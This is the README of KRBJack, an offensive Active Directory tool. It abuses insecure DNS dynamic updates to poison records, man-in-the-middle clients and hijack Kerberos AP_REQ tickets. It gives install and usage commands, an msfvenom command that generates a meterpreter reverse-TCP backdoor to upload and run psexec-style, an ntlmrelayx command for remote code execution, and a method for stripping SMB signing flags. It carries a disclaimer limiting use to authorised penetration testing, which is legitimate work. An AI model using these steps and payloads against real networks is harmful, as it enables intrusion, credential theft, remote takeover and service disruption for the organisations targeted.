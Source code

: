 # KRBJack

This tool can be used to abuse the dangerous `ZONE_UPDATE_UNSECURE` flag on DNS main domain zone in an Active Directory. This flag when set allows anyone unauthenticated to update, add and remove DNS records anonymously. It is quite common to see it during engagements as it is required to get some DHCP servers working with non-windows based systems, to get them update their own records. Even though this flag is extremely dangerous, I've never seen any tool to ease its exploitation. What I wanted to build is a mean to perform Man-in-the-Middle based on this dangerous flag, grab credentials and use them directly to own systems or the entire active directory services (though multiple tools can be used together to perform ntlm relay for example).

The benefit from using this technique of man in the middle is that it goes through routers, as the "official" DNS records are poisonned. If proper routing is set (and if no firewall rule prevents it), someone on another broadcast domain can be targeted (unlike ARP poisoning which only works on you broadcast domain).

Moreover I made the choice to perform fully functionnal AP_REQ hijacking to allow compromission of systems using kerberos instead of NetNTLM.

![image](https://user-images.githubusercontent.com/9830129/235469315-a77c5875-393e-40db-8301-e006013cc98f.png)


# Install

```bash
sudo python -m pip install krbjack
```

You do need to install the tool with root rights as it will need to be runnable by root to listen to privileged ports. Alternatively you can have fun with virtual envs. Alternatively you can download this repo and use `poetry` to install it.

# Usage

`sudo krbjack --target-name <targetNBTName> [--target-ip <targetIP>] --domain <domainName> --dc-ip <domainControlerIpAddress> --ports <port1,port2,port3,...> --executable <executable.exe>`

- `--target-name` : The netbios name of your target, the one you will impersonate, the one you want will pwn if successful. Example : `winserv2`;
- `--target-ip` : You might want to specify the IP address of your target. The alternative is to let this tool query the DNS to get its IP addresses. A quick naive scan is performed to choose one IP from the ones returned by the DNS though this method is flawed. Example: `192.168.42.20`;
- `--domain` : The domain name to which your target is joined. Example : `windomain.local`;
- `--dc-ip` : The IP address of the domain controller you will be poisoning DNS records. Can be any domain controller as the DNS zones will be replicated automatically. Example : `192.168.42.10`;
- `--ports` : An optional list of TCP ports which will be open on your attacker's machine to forward traffic to your target. This list is *very* important because if you omit one port which is open on the legitimate service (your target), clients wont be able to access it during the time of the attack. Setting this list of ports correctly is the key to perform the attack without doing to much of a mess in the network. Example : `135,139,445,80,443,8080`
- `--executable <executable.exe>` : An optional path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `/home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y

**Additionnal flags :**

- `--check` : Used to performs no attack at all, just to check if the DNS zone is vulnerable.
- `--no-poison` : Can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## Alternative use cases

You can use krbjack to only poison dns records, or in combination to ntlmrelayx as well. If you do not specify any executable, no remote code execution will be performed, only dns poisonning will be performed. You can use this and specify ports to forward to catch traffic between your target and any system that tries to reach it by DNS name.

If you do not provide any ports, no tcp forwarding will be performed. This enables to use ntlmrelayx with an unsecure dns update abuse. Example : `krbjack --target-name winserv --domain windomain.local --dc-ip 10.0.0.1`. This will start dns poisonning. At the same time you can start ntlmrelayx : `ntlmrelayx.py -t 10.0.0.42 -smb2support` to try to execute code to the 10.0.0.42 machine. Note that without any tcp forwarding enabled, a full denial of service is performed...

## What are the requirements for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?

First the man in the middle is put in place by changing DNS records attached to your target. It abuses the DNS misconfiguration to say `"hey, now myLegitService is now at <attacker's IP>"`. This way, everyone trying to reach the legitimate service will now reach to you instead. The DNS records are also kept poisoned by checking regularly if they have been set back to the right ones (a server or computer might have reboot, or updated a record while the attack was beeing performed).

In the meantime, the tool starts multithreaded TCP servers to mimick your target TCP services. It starts to serve SMB, HTTP, whatever service you state in the command line. It does so just like an SSH port forwarding : when you reach to the attacker's started services, krbjack initiates connection to the true legitimate service on the same port, and forwards every packet from the legitimate client, to the legitimate service. This way, a full man in the middle is performed both ways, this prevents traffic from being completely blocked.

When the man in the middle is performed, every single packet is inspected to find kerberos AP_REQ packets (containing what's necessary to authenticate to services) or other authenticating packets. When such a packet/ticket is found to be sent from a client, it is used in real time to connect to the legitimate service *on behalf* of the legitimate client. This way krbjack can perform authenticated stuff to the legitimate service. At the moment only SMB is supported, meaning that krbjack performs authenticated SMB actions at this time of the attack workflow. It then uses this authenticated channel to check if the legitimate client was an administrator (tries to list directory ADMIN$ - C:\Windows). If it happens that the client was an administrator, man in the middle is stopped, DNS records are fixed ant it then uses the very same authenticated channel to perform a full psexec.

Krbjack also modifies packets on-the-fly depending on the protocol to remove security flags when possible (SMB flags "signing required", "supported" etc... though it is quite naive for the time being).

# Acknowledgements

Project Zero :
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

Impacket :
- https://github.com/fortra/impacket

# Disclaimer

This tooling is made only for legal penetration testing and not for any other use. I am not responsible for how it is used by anyone or if it is used to penetrate systems without permission or proper contractual agreements. It is provided as is and without warranty of any sort.
